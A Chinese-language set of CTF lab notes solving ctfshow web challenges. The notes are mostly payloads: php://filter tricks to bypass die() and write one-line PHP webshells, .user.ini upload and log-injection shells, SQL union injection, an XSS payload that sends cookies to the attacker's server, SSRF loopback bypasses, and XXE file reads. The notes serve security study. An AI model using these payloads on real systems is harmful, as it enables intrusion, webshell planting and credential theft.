 die('too young too simple sometimes naive!'); } } $file=isset($_GET['file'])?$_GET['file']:"sp2.mp4";        
 filter($file); header('Content-Type: video/mp4');echo file_get_contents($file); ?>        #file_get_contents($file);读取传入文件名的内容,所以可以把flag包含出来    ?file=flag.php        flag在火狐的响应中但是是base64还需解码,也可以用bp直接就抓取到了
```

```
117.function filter($x){if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){        #过滤了这些字符,我一开始想用php伪协议的base64-decode绕过死亡die的,但是过滤了
die('too young too simple sometimes naive!');}}
$file=$_GET['file'];$contents=$_POST['contents'];filter($file);    #接收参数和过滤函数
file_put_contents($file, "<?php die();?>".$contents);        #把<?php die();?>.$contents写入$file中,需要绕过<?php die();?>写入?file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php        contents=?<hp pvela$(P_SO[T]1;)>?
```

##### **绕过死亡die()和exit():  **

```
1.base64绕过:?filename=php://filter/convert.base64-decode/resource=1.php                PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+       base64解码：<?php eval($_POST[1]);?> 绕过死亡die()：<?php die()?>经过base64-decode就会只剩下php die    而base64 是4个一组,而 phpdie 只有六个,所以要加两个字母凑足base64的格式,POST传值:     content=aaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+ 绕过死亡exit()：<?php exit()?>经过base64-decode就会只剩下php exit,七个字符只需要再加一个字符即可,POST传值:     content=aPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+

2.strip_tags绕过:?filename=php://filter/string.strip_tags|convert.base64-decode/resource=1.php        #strip_tags会去掉标签及标签内的内容,所以die()和exit()就被去除了        
POST传值:     content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+        

3.iconv.UCS-2LE.UCS-2BE绕过:?file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php   POST传值:contents=?<hp pvela$(P_SO[T]1;)>?
iconv.UCS-2LE.UCS-2BE编码:
<?php                                                          ?>');
echo"第一次反转:".$result."\n";    
echo"第二次反转:".iconv("UCS-2LE","UCS-2BE",$result);?>
第一次反转:?<hp pvela$(P_SO[T]1;)>?
第二次反转:<?php eval($_POST[1]);?>

4.使用rot13编码绕过,开启了短标签解析不能使用这个payload,<?php eval($_POST[1]);?>经过rot13编码后为<?cuc riny($_CBFG[1]);?>    payload:    ?filename=php://filter/string.rot13/resource=1.php                  POST传值:     content=<?cuc riny($_CBFG[1]);?>

```

##### Rot13是一种替换式加密算法,称为回转13位,它对字母表中的每个字母进行替换。

对于输入字符串中的每个字母，将其ASCII值加上13或减去13


# 文件上传

```
151.简单的前端验证,绕过前端上传一个含有一句话木马的php文件即可,执行命令或者连蚁剑
```

```
152.简单的后端验证,先上传一个含有一句话木马的php文件,后端是根据MIME文件格式确认的文件,只需要更改Content-Type: image/png    即可成功上传php文件
```

```
153.这个不能上传php后缀的文件,先上传.user.ini文件,内容为：auto_prepend_file=1.png
,再继续上传含有一句话木马的1.png,在同一目录下的其他php文件就会自动解析1.png的内容,1.png里的一句话木马就会被执行,执行命令得到flag
```

```
154.先上传.user.ini文件,内容为：auto_prepend_file=1.png
,再继续上传含有一句话木马的1.png,在同一目录下的其他php文件就会自动解析1.png的内容,1.png里的一句话木马就会被执行,这里文件内容还过滤了<?php,所以只能使用段标签<?= eval($_POST[1]);?>    上传成功后访问该地址,post传值1=system("ls ../");找到flag.php    1=system("tac ../flag.php");得到flag
```

```
155.同上    1=system("ls ../");找到flag.php        1=system("tac /var/www/html/flag.php");得到flag,用蚁剑找flag更快
```

```
156.1.上传.user.ini后直接再bp里面上传执行命令
<?= system("ls ../")?>得到flag.php    但是过滤了php,于是用*匹配后面的.php    <?= system("tac ../flag*")?>
2.过滤了[],但是php也支持{}这种写法    <?= eval($_POST{1})?>
```

```
157.上传.user.ini后上传含有一句话木马的png文件过滤了[],{},我就直接在bp上执行命令了1=system("ls ../");找到flag.php        过滤了php    1=system("tac ../flag*");
```

```
158.上传.user.ini后上传含有一句话木马的png文件,bp插入<?= system("ls ../")?>访问该网页得到flag.php ,过滤了php,插入<?= system("tac ../flag*")?>得到flag
```

```
159.上传.user.ini后上传含有一句话木马的png文件,过滤了()就不能执行函数,但是``可以执行,<?= `ls ../`?>得到flag.php     还过滤了php,    <?= `tac ../flag.*`?>得到flag
```

```
160.同上,过滤了( ) { } ; log,使用文件包含加日志注入,绕过log过滤用l"."og连接绕过,文件包含<?=include"/var/l"."og/nginx/access.l"."og"?>访问该网页可得到User-Agent相关信息,所以进行日志注入,UA头添加:<?php eval($_POST[1]);?>    访问该网页即可用post执行命令也可以用蚁剑连接寻找更方便。
```

```
161.这道题需要多增加文件头：GIF89a,其余同上可的flag
```

```
162.    1.这道题多过滤了. 不能再直接上传含点的：auto_prepend_file=1.png改为auto_prepend_file=png,因为过滤了.,不可以使用文件包含日志注入了,但是可以包含远程地址,我建了一个本地网站,写了一个index.php文件,内容是一句话木马,从而可以进getshell,网站地址为:http://192.168.216.250用IP地址转换为二进制：http://3232291066仍然可以正确访问,但是这个网址必须要公网IP地址,才能包含到远程地址,我这样是找不到我搭建的网站的就包含不了。
2.session包含,.user.ini文件内容为:GIF89a    auto_prepend_file=/tmp/sess_shell    ,这样可以跳过上传图片马作为包含文件的跳板，直接使upload下的index.php文件包含session文件
需要编写一个向目标地址发送POST请求创建session文件的文件上传网页:
<!DOCTYPE html>
<html>
<body>
<form action="http://78c48379-27b6-4a04-ac10-07c787b030d4.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('tac ../f*')?>");?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
打开网页向目标地址发送数据包，并在数据包中构造session文件的文件名
cookie:PHPSESSID=shell
<?php                                                   ?>');?>
```

```
163.
```


# sql注入

```
172.1' order by 3--+能正常显示,有3个字段,这道题#不能注释要用--+注释        -1' union select 1,2,3--+    字段都能正常显示    -1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+得到数据库information_schema,test,mysql,performance_schema,ctfshow_web    查看ctfshow_web数据库有什么表：-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web')--+    得到ctfshow_user表
查ctfshow_user表下的字段：-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_user')--+ 得到id,username,password    查该表的字段中有什么：-1' union select 1,group_concat(username,':',password),3 from ctfshow_web.ctfshow_user--+  得到flag
```

```
172.库：information_schema,test,mysql,performance_schema,ctfshow_web     表：ctfshow_user,ctfshow_user2    两个表的列都是：id,username,password        flag放在ctfshow_user2中
```

```
173.库：information_schema,test,mysql,performance_schema,ctfshow_web    表：ctfshow_user,ctfshow_user2,ctfshow_user3        字段：id,username,password        过滤了flag，不能写入username，因为username中有flag会被过滤掉：1' union select 1,2,group_concat(password) from ctfshow_web.ctfshow_user3--+得到flag
```

```
174.
```


# XSS

```
316.这是一个反射性xss,需要服务器准备一个接收文件get.php,接收cookie 
<script>window.location.href='http://你的公网I服务器P地址/get.php?c='+document.cookie</script>
get.php内容:<?php $cookie=$_GET['c'];$myfile=fopen("cookie.txt","w+");fwrite($myfile,$cookie);fclose($myfile);?>
```


# SSRF

0.0.0.0就是任何地址IP_ADDR_ANY，任何地址的意思就是包括环回地址。

```
351.$url=$_POST['url']; $ch=curl_init($url);    #创建一个cURL资源
curl_setopt($ch, CURLOPT_HEADER, 0);    #启用时会将头文件的信息作为数据流输出。
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);    #将curl_exec()获取的信息以文件流的形式返回，而不是直接输出。 
$result=curl_exec($ch);    #抓取URL并把它传递给浏览器,curl_exec执行一个cURL会话
curl_close($ch);    #关闭cURL资源，并且释放系统资源
echo ($result);
curl是利用URL语法在命令行方式下工作的开源文件传输工具,curl_setopt设置URL和相应的选项
dirsearch -u ip 扫描到有flag.php post传值  1.url=http://127.0.0.1/flag.php 得到flag
2.url=http://localhost/flag.php 得到flag
3.url=file:///var/www/html/flag.php    右键查看源码得到<?php $flag="ctfshow{1b771c19-0cb7-431e-a478-397f03b436a4}"; if($_SERVER['REMOTE_ADDR']=='127.0.0.1'){echo $flag;}else{die("非本地用户禁止访问");}?>
```

```
352.$url=$_POST['url'];$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){  #传过来的必须要是http或https
if(!preg_match('/localhost|127.0.0/')){    #没有匹配到localhost|127.0.0才继续
$ch=curl_init($url);curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);curl_close($ch);echo ($result);} 
post传值,随便传一个本地是127开头即环回地址的值就行：url=http://127.0.1.1/flag.php  得到flag
windows 0代表0.0.0.0    linux 0代表 127.0.0.1    可以用0代替127.0.0.1
url=http://0/flag.php    #特殊0绕过
url=http://0.0.0.0/flag.php     #特殊0绕过
url=http://2130706433/flag.php  #二进制绕过
url=http://0x7F000001/flag.php   #十六进制绕过
url=http://0177.0.0.1/flag.php      #八进制绕过
url=http://127.1/flag.php        #简写绕过
```

```
353.$url=$_POST['url'];$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){    #传过来的必须要是http或https
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){    #没有匹配到localhost|127.0为前缀的IP才继续
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);curl_close($ch);echo ($result);} 
post传值,传一个本地不是127.0开头的环回地址的值就行:url=http://127.1.0.1/flag.php得到flag
```

```
354.$url=$_POST['url'];$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){    #传过来的必须要是http或https
if(!preg_match('/localhost|1|0|。/i', $url)){    #没有匹配到localhost或者1才继续
$ch=curl_init($url);curl_setopt($ch, CURLOPT_HEADER, 0);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);curl_close($ch);echo ($result);} 
post传值使用解析到127.0.0.1的url绕过：url=http://safe.taobao.com/flag.php
可以把域名解析到本机的环回地址：http://safe.taobao.com/    http://114.taobao.com/    http://wifi.aliyun.com/
http://imis.qq.com/    http://localhost.sec.qq.com/    http://ecd.tencent.com/
http://sudo.cc/
```

```
355.$url=$_POST['url'];$x=parse_url($url);    
if($x['scheme']==='http'||$x['scheme']==='https'){$host=$x['host'];
if((strlen($host)<=5)){$ch=curl_init($url);curl_setopt($ch, CURLOPT_HEADER, 0);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);    #host要小于5
$result=curl_exec($ch);curl_close($ch);echo ($result);} 
post传值  1.url=http://127.1/flag.php    
2.url=http://0/flag.php得到flag,这里的host就是0,在Linux中0是127.0.0.1
```

```
356.$url=$_POST['url'];$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){$host=$x['host'];
if((strlen($host)<=3)){$ch=curl_init($url);    #就是长度要小于等于3
curl_setopt($ch, CURLOPT_HEADER, 0);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);curl_close($ch);echo ($result);} 
post传值    1.url=http://0/flag.php    
2.url=http://0.0/flag.php
```

##### 私有IP地址范围：

```
A: 10.0.0.0~10.255.255.255 即10.0.0.0/8
B:172.16.0.0~172.31.255.255即172.16.0.0/12
C:192.168.0.0~192.168.255.255 即192.168.0.0/16
```

##### 保留IP地址

```
保留IP地址不用于一般的设备或主机通信，而是用于特定的网络管理、安全或特殊用途。这些地址包括：
私有IP地址。10.0.0.0到10.255.255.255、172.16.0.0到172.31.255.255和192.168.0.0到192.168.255.255。
回环地址。用于本地主机自我测试和通信，例如127.0.0.1，主要用于测试网络服务和应用程序。
多播地址用于一台主机同时向多个目标主机发送数据，范围是224.0.0.0到239.255.255.255。
特殊服务地址。用于特殊的网络服务，如DNS服务器使用127.0.0.1作为本地回环地址。
测试和开发环境使用的地址。在测试和开发环境中，保留IP地址可以用来模拟网络环境中的其他设备。
动态分配的地址。在某些情况下，保留IP地址可能会被动态分配给计算机或设备，以便临时使用。
```

```
357.$url=$_POST['url'];$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){    
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {die('ip!');}echo file_get_contents($_POST['url']);} 
#filter_var()函数通过指定的过滤器过滤一个变量,FILTER_VALIDATE_IP(把值作为IP地址来验证，只限 IPv4或IPv6或不是来自私有或者保留的范围),FILTER_FLAG_NO_PRIV_RANGE要求值不在RFC指定的私有范围IP内(比如 192.168.0.1),FILTER_FLAG_NO_RES_RANGE要求值不在保留的IP范围内。127.0.0.1 为保留地址
这道题需要公网ip进行重定向,url=http//你的公网ip/x.php    x.php的内容为：<?php header('Location: http://127.0.0.1/flag.php');exit;?>    得到flag
```


# xxe

```
373.libxml_disable_entity_loader(false); #这里相当于开启外部实体,若为true,则表示禁用外部实体
$xmlfile = file_get_contents('php://input');    #接收POST请求的原始内容
if(isset($xmlfile)){$dom = new DOMDocument();    #new DOMDocument()初始化XML解析器
$dom->loadXML($xmlfile,LIBXML_NOENT | LIBXML_DTDLOAD);#LIBXML_NOENT:将XML中的实体引用替换成对应的值,LIBXML_DTDLOAD:加载DOCTYPE中的DTD文件
$creds = simplexml_import_dom($dom);    #获取DOM文档节点并转换为SimpleXML节点
$ctfshow = $creds->ctfshow;echo $ctfshow;} 

payload:
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///flag">]>
<ctf><ctfshow>&xxe;</ctfshow></ctf>
```


```
378.这是一个登录框,右键源代码发现是前端写的用xml提交的登录框,抓包发现类型就是xml,得到<user><username>admin</username><password>123</password></user>
payload:
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///flag">]>
<user><username>&xxe;</username><password>&xxe;</password></user>>
```
